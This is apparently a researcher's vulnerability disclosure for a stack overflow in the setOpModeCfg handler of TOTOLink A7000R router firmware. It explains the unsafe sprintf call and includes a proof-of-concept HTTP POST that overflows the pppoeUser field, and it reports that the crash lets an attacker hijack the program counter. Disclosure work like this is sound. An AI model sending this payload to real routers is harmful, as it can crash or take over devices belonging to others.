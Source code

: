# TOTOLink A7000R V9.1.0u.6115_B20201022has a stack overflow vulnerability

## Overview

- Firmware download address: https://totolink.cn/home/menu/detail.html?menu_listtpl=download&id=9&ids=36
- Manufacturer's website information：https://www.totolink.net/

## Product Information

TOTOLink A7000R V9.1.0u.6115_B20201022 router, the latest version of simulation overview：

![image-20231122042242563](image/image-20231122042242563.png)

## Vulnerability details

setOpModeCfg

![image-20231122050656640](image/image-20231122050656640.png)

![image-20231122050716503](image/image-20231122050716503.png)

![image-20231122050744553](image/image-20231122050744553.png)

V67 is a variable on the stack, while pppoeUser is a user controllable variable. The sprintf function caused a stack overflow

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 78
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/basic/index.html
Cookie: SESSION_ID=2:1700540000:2

{

"topicurl":"setOpModeCfg",

"proto":"3",

"pppoeSpecType":"1",

"pppoeUser":"a"*0x500

}
```

![image-20231122050910613](image/image-20231122050910613.png)

The above figure shows the POC attack effect

![image-20231122050926157](image/image-20231122050926157.png)

As shown in the figure above, we can hijack PC registers.

![image-20231122050953870](image/image-20231122050953870.png)